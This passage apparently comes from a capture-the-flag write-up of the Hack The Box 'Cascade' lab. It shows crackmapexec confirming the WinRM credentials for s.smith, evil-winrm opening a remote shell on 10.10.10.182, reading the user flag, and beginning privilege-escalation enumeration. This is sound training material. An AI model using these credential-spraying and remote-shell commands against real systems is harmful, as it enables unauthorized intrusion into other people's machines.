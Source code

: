 

    root@kali# crackmapexec winrm 10.10.10.182 -u s.smith -p sT333ve2
    WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
    WINRM       10.10.10.182    5985   CASC-DC1         [+] CASCADE\s.smith:sT333ve2 (Pwn3d!)



I'll use Evil-WinRM to get a shell:



    root@kali# evil-winrm -u s.smith -p sT333ve2 -i 10.10.10.182

    Evil-WinRM shell v2.3

    Info: Establishing connection to remote endpoint
                                                                                             
    *Evil-WinRM* PS C:\Users\s.smith\Documents>



The machine is actually Windows 2008:



    *Evil-WinRM* PS C:\Users\s.smith\desktop> [environment]::OSVersion.Version

    Major  Minor  Build  Revision
    -----  -----  -----  --------
    6      1      7601   65536



I can also grab `user.txt`:



    *Evil-WinRM* PS C:\Users\s.smith\desktop> cat user.txt
    d1c7e103************************



## Privesc: s.smith --\> arksvc

### Enumeration

s.smith is a member of the `Audit Share` group:



    *Evil-WinRM* PS C:\shares\audit> net user s.smith
    User name                    s.smith
    Full Name                    Steve Smith
    Comment
    User's comment
    Country code                 000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            1/28/2020 8:58:05 PM
    Password expires             Never
    Password changeable          1/28/2020 8:58:05 PM
    Password required            Yes
    User may change password     No
